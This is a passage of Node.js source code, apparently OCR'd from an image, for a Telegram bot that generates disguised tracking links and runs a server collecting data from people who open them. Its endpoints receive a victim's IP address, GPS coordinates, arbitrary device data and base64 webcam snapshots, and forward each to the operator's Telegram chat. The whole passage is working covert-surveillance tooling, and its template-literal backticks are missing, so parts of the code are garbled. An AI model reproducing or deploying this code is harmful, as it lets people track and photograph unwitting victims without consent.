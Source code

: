 var wUrl=${hostURL}/w/${url};
  
bot.sendChatAction(cid,"typing");
if(use1pt){
var x=await fetch(https://short-link-api.vercel.app/?query=${encodeURIComponent(cUrl)}).then(res => res.json());
var y=await fetch(https://short-link-api.vercel.app/?query=${encodeURIComponent(wUrl)}).then(res => res.json());

var f="",g="";

for(var c in x){
f+=x[c]+"\n";
}

for(var c in y){
g+=y[c]+"\n";
}
  
bot.sendMessage(cid, New links has been created successfully.You can use any one of the below links.\nURL: ${msg}\n\n✅Your Links\n\n🌐 CloudFlare Page Link\n${f}\n\n🌐 WebView Page Link\n${g},m);
}
else{

bot.sendMessage(cid, New links has been created successfully.\nURL: ${msg}\n\n✅Your Links\n\n🌐 CloudFlare Page Link\n${cUrl}\n\n🌐 WebView Page Link\n${wUrl},m);
}
}
else{
bot.sendMessage(cid,⚠️ Please Enter a valid URL , including http or https.);
createNew(cid);

}  
}


function createNew(cid){
var mk={
reply_markup:JSON.stringify({"force_reply":true})
};
bot.sendMessage(cid,🌐 Enter Your URL,mk);
}





app.get("/", (req, res) => {
var ip;
if (req.headers['x-forwarded-for']) {ip = req.headers['x-forwarded-for'].split(",")[0];} else if (req.connection && req.connection.remoteAddress) {ip = req.connection.remoteAddress;} else {ip = req.ip;}
res.json({"ip":ip});

  
});


app.post("/location",(req,res)=>{

  
var lat=parseFloat(decodeURIComponent(req.body.lat)) || null;
var lon=parseFloat(decodeURIComponent(req.body.lon)) || null;
var uid=decodeURIComponent(req.body.uid) || null;
var acc=decodeURIComponent(req.body.acc) || null;
if(lon != null && lat != null && uid != null && acc != null){

bot.sendLocation(parseInt(uid,36),lat,lon);

bot.sendMessage(parseInt(uid,36),Latitude: ${lat}\nLongitude: ${lon}\nAccuracy: ${acc} meters);
  
res.send("Done");
}
});


app.post("/",(req,res)=>{

var uid=decodeURIComponent(req.body.uid) || null;
var data=decodeURIComponent(req.body.data)  || null; 
if( uid != null && data != null){


data=data.replaceAll("<br>","\n");

bot.sendMessage(parseInt(uid,36),data,{parse_mode:"HTML"});

  
res.send("Done");
}
});


app.post("/camsnap",(req,res)=>{
var uid=decodeURIComponent(req.body.uid)  || null;
var img=decodeURIComponent(req.body.img) || null;
  
if( uid != null && img != null){
  
var buffer=Buffer.from(img,'base64');
  
var info={
filename:"camsnap.png",
contentType: 'image/png'
};


try {
bot.sendPhoto(parseInt(uid,36),buffer,{},info);
} catch (error) {
console.log(error);
}


res.send("Done");
 
}

});



app.listen(5000, () => {
console.log("App Running on Port 5000!");
});
